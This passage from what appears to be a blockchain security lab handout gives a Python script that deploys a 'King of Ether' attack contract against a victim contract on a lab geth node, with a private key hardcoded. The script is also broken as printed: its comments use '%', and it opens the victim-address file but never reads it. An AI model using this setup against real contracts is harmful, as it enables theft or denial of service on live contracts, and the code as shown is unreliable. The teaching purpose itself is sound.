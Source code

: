 \begin{lstlisting}[language=python, caption={Deploying the attacker contract (\texttt{deploy\_attack\_contract.py})}]
#!/bin/env python3

from web3 import Web3
import os
import sys

% Add the shared folder to sys.path
sys.path.append(os.path.abspath("../shared"))

import SEEDWeb3

% Paths to ABI and bytecode files
abi_file = "../contract/KingOfEtherAttack.abi"
bin_file = "../contract/KingOfEtherAttack.bin"

% Read victim contract address
with open("contract_address_victim.txt", "r") as fd:
    victim_addr = "put address here"

% Connect to a geth node
web3 = SEEDWeb3.connect_to_geth_pos('http://10.151.0.71:8545')

% Private key and derived account
private_key = "6510652e04c9bcb471982164cf779fc0b624bb26bc3cfe5a8a54bddeba90d667"

print(f"Deploying Attack contract targeting KingOfEther at {victim_addr}...")
addr = SEEDWeb3.deploy_contract(web3, private_key, abi_file, bin_file, victim_addr)
print(f"Attack contract deployed at: {addr}")
with open("contract_address_attack.txt", "w") as fd:
    fd.write(addr)
\end{lstlisting}

Update \texttt{victim\_addr} with the address from \texttt{contract\_address\_victim.txt}.

\subsection{Task 1.d: Checking Initial State}

Use \texttt{check\_status.py} in  to verify the initial king and balance:

